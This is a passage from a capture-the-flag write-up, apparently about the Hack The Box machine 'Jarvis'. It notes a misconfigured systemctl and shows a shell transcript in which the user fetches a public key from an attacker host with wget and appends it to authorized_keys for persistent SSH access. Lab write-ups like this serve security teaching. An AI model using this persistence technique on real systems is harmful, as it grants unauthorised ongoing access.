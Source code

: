 ![user flag.](/wp-content/uploads/2019/07/jarvis/systemctl_misconfig.png)
**Figure 11:** Look who owns systemctl!


### Privilege Escalation: A proper shell
In order to exploit `systemctl` we need a proper shell. The below method does not function on a reverse shell, as we cannot enable services through it. This was discovered via trial and error, and I can't explain exactly as to why.

To get the shell we need we're simply going to take the public key we've got on our apache server and copy it into `~/.ssh/authorized_keys`. It may be the case that we need to create this directory and file, if no other HTB users have done it since the box has been reset.

```console
pepper@jarvis:~/.ssh$ cd /tmp
cd /tmp
pepper@jarvis:/tmp$ wget http://10.10.14.61/id_rsa.pub
wget http://10.10.14.61/id_rsa.pub
--2019-07-23 21:29:15--  http://10.10.14.61/id_rsa.pub
Connecting to 10.10.14.61:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 391
Saving to: 'id_rsa.pub'

     0K                                                       100% 91.7M=0s

2019-07-23 21:29:16 (91.7 MB/s) - 'id_rsa.pub' saved [391/391]

pepper@jarvis:/tmp$ cat id_rsa.pub >> ~/.ssh/authorized_keys
```
